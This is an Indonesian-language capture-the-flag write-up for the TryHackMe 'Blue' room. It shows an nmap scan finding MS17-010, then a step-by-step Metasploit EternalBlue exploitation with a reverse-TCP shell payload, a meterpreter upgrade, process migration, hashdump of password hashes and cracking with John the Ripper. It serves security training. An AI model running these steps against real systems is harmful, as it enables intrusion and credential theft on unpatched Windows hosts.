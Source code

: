 # CTF Blue
- TryHackMe Room: https://tryhackme.com/room/blue
- IP Machine: 10.10.88.234

## Nmap Report
- Baris perintah: `nmap -sV --script vuln <IP Machine>`

```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV --script vuln 10.10.88.234 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 02:38 EDT
Nmap scan report for 10.10.88.234
Host is up (0.20s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.80 seconds
```
- Dari hasil scanning, diketahui bahwa service SMB memiliki jenis kerentanan **ms17-010**


## Metasploit
- Buka `msfconsole` di terminal

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%201.JPG)

- Cari modul untuk exploit jenis kerentanan ms17–010 dengan perintah `search ms17–010`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%202.JPG)

- Disini kita menggunakan modul **exploit/windows/smb/ms17_010_eternalblue** yang ada di list nomor 0. Jadi cukup gunakan perintah `use 0`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%203.JPG)

- Ketik `show options` untuk melihat daftar parameter yang perlu diisi pada modul tersebut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%204.JPG)

- Gunakan perintah `set <Nama parameter> <Value>` untuk mengisi parameter. Isi parameter RHOSTS dengan IP Machnine dan isi parameter LHOST dengan IP tun0 pada komputer yang anda gunakan. Kemudian setting payload `set payload windows/x64/shell/reverse_tcp` sesuai petunjuk soal

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%205.JPG)

- Ketik `exploit` untuk memulai proses exploitasi

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%206.JPG)

- Proses exploitasi berhasil dan kita masuk sebagai **nt authority\system**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%207.JPG)

- Tekan **Ctrl+Z** lalu ketik "y" untuk mengubah session 1 ke background

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%208.JPG)

- Cari modul untuk mengkonversi shell sistem ke shell meterpreter di metasploit. Kita bisa gunakan perintah `search shell_to_meterpreter`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%209.JPG)

- Karena hanya ada 1 modul, langsung kita gunakan modul tersebut dengan perintah `use 0`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2010.JPG)

- Ketik `show options` untuk melihat daftar parameter yang perlu diisi pada modul tersebut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2011.JPG)

- Gunakan perintah `set <Nama parameter> <Value>` untuk mengisi parameter. Isi parameter LHOST dengan IP tun0 pada komputer yang anda gunakan dan parameter SESSION dengan 1

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2012.JPG)

- Ketik `exploit` untuk memulai proses exploitasi. Proses exploitasi berhasil dan ketikkan `sessions` untuk melihat daftar session yang berhasil terbentuk

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2013.JPG)

- Masuk ke session 2 dengan perintah `sessions -i <nomor session>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2014.JPG)

- Ketik `ps` untuk melihat daftar proses yang berjalan di server sesuai arahan tugas. Disini ditemukan program services.exe yang berjalan di PID 672

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2015.JPG)

- Lakukan migrate dengan perintah `migrate <PID>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2016.JPG)

- Ketik `hashdump` maka akan diperoleh daftar user beserta passwordnya yang di hash

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2017.JPG)

- Simpan hash user Jon kedalam file untuk melakukan cracking dengan perintah `echo hash > nama_file`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2018.JPG)

- Lakukan cracking dengan tool john the ripper `john --wordlist=/usr/share/wordlists/rockyou.txt nama_file`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2019.JPG)